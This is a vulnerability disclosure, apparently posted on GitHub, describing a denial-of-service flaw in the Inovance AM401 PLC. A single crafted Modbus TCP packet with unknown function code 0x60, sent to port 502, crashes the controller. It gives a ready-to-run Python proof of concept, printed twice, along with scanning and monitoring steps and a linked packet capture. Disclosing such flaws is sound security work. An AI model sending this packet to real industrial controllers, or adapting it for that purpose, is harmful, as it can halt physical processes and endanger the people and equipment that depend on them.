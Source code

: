 # Summary
There is a denial of service vulnerability in port 502 of Inovance AM401 PLC. An attacker can send a carefully constructed message to cause the PLC device to crash.

Crash occurs when handling **unkown function code 0x60**.

# Details

Details of PLC:
![image](https://github.com/user-attachments/assets/f6878a4b-22ef-4c3a-85c4-06202652306b)



Nmap scans device ports:![image](https://github.com/user-attachments/assets/681555a3-9251-47b4-af51-9575f3166249)

You can see that port 502 is open.

Use
```
ping 192.168.1.88 -t
```
to monitor and use wireshark to capture the pakcet.

Use
```
python3 poc.py
```
to run this PoC script:
```py
import socket
import time

datas = ["00010000000bfe60e9e9e8e91711fa16e9"]

for i in range(1):
    for data in datas:
        packet = bytes.fromhex(data)
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("192.168.1.88",502))
        s.send(packet)
        s.close()
```

You will see that the PLC is crashed.
![image](https://github.com/user-attachments/assets/e9284b13-73a0-4f94-b0f6-474ba3c96005)

![image](https://github.com/user-attachments/assets/a403f77c-07ae-45dd-b5f9-3339e8ab0cd9)

And I upload the whole capture of wireshark here: https://github.com/N0zoM1z0/Vuln-Search/blob/main/AM401_0x60_DoS.pcapng .

# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket
import time

datas = ["00010000000bfe60e9e9e8e91711fa16e9"]

for i in range(1):
    for data in datas:
        packet = bytes.fromhex(data)
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("192.168.1.88",502))
        s.send(packet)
        s.close()

```

# Discoverer
ylqncepu@163.com

https://github.com/N0zoM1z0

